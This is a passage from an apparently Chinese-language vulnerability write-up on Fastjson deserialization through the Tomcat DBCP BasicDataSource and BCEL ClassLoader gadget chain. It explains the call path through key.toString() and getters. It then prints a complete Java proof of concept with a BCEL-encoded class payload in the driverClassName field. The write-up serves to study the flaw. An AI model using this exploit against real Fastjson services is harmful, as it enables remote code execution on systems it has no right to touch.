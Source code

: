 ```java
```

需要注意的是

这里poc的嵌套

最后`JSON.parse` 触发`key.toString()`

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/12/attach-adced1cd11190343584ed0f07523486cd517995c.png)

整个poc都为`JSONObject` ，`value`为`Moc`

然后判断是否是`JSON`对象，再去识别`key`和`value`

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/12/attach-f3adf7c7a0ecba4e4ace681b8ede00d380b6ec01.png)

调试过程中确实两次落在该断点

```java
key = (key == null) ? "null" : key.toString();
```

而在执行toString() 时会将当前类转为字符串形式，会提取类中所有的Field，执行相应的 getter 、is等方法。因此也会执行getConnection方法

当然以上都是建立在`parse()` 方法之上

如果poc是`parseObject()` ，那就简单了，因为在处理过程中会调用所有的 setter 和 getter 方法。详细可以看FastJson反序列化基础

poc

```java
package org.example;

import com.alibaba.fastjson.JSON;

/**
 * @Author kilo、冰室/ki10Moc
 * @date 2022/11/7
 * @time 14:30
 * @blog http://ki10.top
 **/

public class FastJsonBcel {
    public static void main(String[] args) {
String s = "{\n" +
                "               \"@type\": \"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\",\n" +
                "                \"driverClassLoader\": {\n" +
                "                    \"@type\": \"com.sun.org.apache.bcel.internal.util.ClassLoader\"\n" +
                "                },\n" +
                "                \"driverClassName\": \"$$BCEL$$$l$8b$I$A$A$A$A$A$A$AuQ$cbN$db$40$U$3d$938$b1c$9c$e6A$D$94$a6o$k$81E$zPw$m6$V$95$aa$baM$d5$m$ba$9eL$a7a$82cG$f6$84$a6_$c4$3a$hZ$b1$e8$H$f0Q$88$3b$sM$pAG$f2$7d$ce9$f7$dc$f1$d5$f5$e5$l$Ao$b0$e1$c2$c1$b2$8b$V$3cr$b0j$fcc$hM$X$F$3c$b1$f1$d4$c63$86$e2$be$8a$94$3e$60$c8$b7$b6$8e$Z$ac$b7$f17$c9P$JT$q$3f$8d$G$5d$99$i$f1nH$95z$Q$L$k$k$f3D$99$7cZ$b4$f4$89J$Z$9a$81$88$H$fep$87$ff$dc$fd$a1$o$ff$3bOu$3f$8d$p$ff$f0L$85$7b$M$ce$be$I$a7C$Y$81$gA$9f$9fq_$c5$fe$fb$f6$e1X$c8$a1VqD$d7$ca$j$cd$c5$e9G$3e$cc$c8I$t$83$db$89G$89$90$ef$94$ZV2t$af$N$d6C$J$ae$8d$e7$k$5e$e0$r$a9$ma$c2$c3$x$ac1$y$de$c3$eda$j$$$c3$ea$ffE2T3$5c$c8$a3$9e$df$ee$f6$a5$d0$M$b5$7f$a5$_$a3H$ab$Bip$7bR$cf$92Fk$x$b8s$87$W$b1$e4X$K$86$cd$d6$5c$b7$a3$T$V$f5$f6$e6$B$9f$93X$c84$r$40eHM$9d$ad$7f$94p$ni$z$9b$7e$9c990$b3$y$d9$F$ca$7c$f2$8c$7ca$fb$X$d8$qk$7bd$8b$b7E$94$c9z$d3$f8$B$w$e4$jTg$60$9e$91$B$f5$df$c8$d5$f3$X$b0$be$9e$c3$f9$b0$7d$81$e2$q$ab$97$I$5b$40$3ec$5c$a2$c8$a0K$844$af$5d$s$96$gE$7f$t$94aQ$5e$a7l$91$3e$h$b9$c0$c6C$8b$g$8dL$d4$d2$N_$9f$94$o$82$C$A$A\"\n" +
                "        }";
        JSON.parseObject(s);
    }
}
```

